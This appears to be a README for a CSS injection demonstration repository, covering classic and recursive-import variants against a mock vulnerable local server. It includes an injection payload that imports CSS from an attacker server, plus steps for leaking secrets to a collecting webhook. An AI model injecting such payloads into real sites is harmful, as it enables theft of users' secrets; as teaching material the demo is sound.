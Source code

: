 # c5517n
CSS Injection.

## Classic
### Overview
An example of a classical CSS Injection attack.
The attacker needs to have the user POST the attack vector every time.


### Usage
1. Run `attacker/server.py` and `user/server.py`.
1. Run `attacker/exploit.py`.
1. Post the attack vector generated by `attacker/exploit.py` to `0.0.0.0:8080`, the leaked secret will be displayed on the console of `attacker/server.py`. 
1. Enter the leaked secret into `attacker/exploit.py` and continue the attack.
1. Loop...

### Files
- `user/server.py`: Mock web application that has CSS Injection vulnerability.
- `attacker/exploit.py`: Generates a CSS Injection attack vector and copies it to the clipboard.
- `attacker/server.py`: Webhook to collect secret.

## Recursive
### Overview
An example of CSS Injection using Recursive Import technique.

### Usage
1. Run `attacker/server.py` and `user/server.py`.
1. Post the attack vector: `<style>@import url('http://0.0.0.0:8081/css/0.css')</style>`.
1. Leakage continues recursively due to CSS import

### Files
- `user/server.py`: Mock web application that has CSS Injection vulnerability.
- `attacker/server.py`: Webhook to collect secret.
- `attacker/templates/tmpl.jinja2`: Attack vector(CSS) template.

### Reference
[m---/onsen](https://github.com/m---/onsen)